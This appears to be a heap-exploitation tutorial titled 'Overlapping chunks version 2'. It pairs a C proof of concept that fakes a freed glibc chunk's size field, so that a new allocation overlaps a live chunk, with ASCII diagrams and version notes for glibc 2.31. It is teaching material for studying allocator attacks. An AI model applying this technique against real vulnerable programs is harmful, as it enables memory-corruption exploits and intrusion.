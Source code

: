 # Overlapping chunks version 2
> LongChampion, 18/03/2020

Yes, another overlapping attack. This attack is a bit harder than version 1, but is is easier than *poison null byte*.
```
#include <stdlib.h>
#define PREV_INUSE 0x01

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *p1, *p2, *p3, *p4, *p5;
    p1 = malloc(0x100 - 8);
    p2 = malloc(0x100 - 8);
    p3 = malloc(0x100 - 8);
    p4 = malloc(0x100 - 8);
    p5 = malloc(0x100 - 8);

    free(p4);
    struct Chunk *Header = (struct Chunk *) (p2 - 0x10);
    Header->size = 0x200 | PREV_INUSE;
    free(p2);

    p2 = malloc(0x300 - 8);
}
```
This is visualization:
> After allocation:
```
    +-------------+-------------+-------------+-------------+-------------+
    |      1      |      2      |      3      |      4      |      5      |
    +-------------+-------------+-------------+-------------+-------------+

```
> Free chunk `4`:
```
    +-------------+-------------+-------------+             +-------------+
    |      1      |      2      |      3      |             |      5      |
    +-------------+-------------+-------------+             +-------------+
```
> Change size of chunk `2`, then free it:
```
    +-------------+             +-------------+             +-------------+
    |      1      |             |      3      |             |      5      |
    +-------------+             +-------------+             +-------------+
```
> Allocate chunk `2` again (with larger size):
```
    +-------------+-------------#>>>>>>>>>>>>>#-------------+-------------+
    |      1      |      2      [   2 and 3   ]      2      |      5      |
    +-------------+-------------#<<<<<<<<<<<<<#-------------+-------------+
```

# Note
- This attack still work with glibc 2.31 (I have tested this), but doesn't work against fastbin and tcache_bin.
- Chunk `5` is important: without it we can't free chunk `4`.
- The `PREV_INUSE` flag in chunk `2` fake size is important, too.
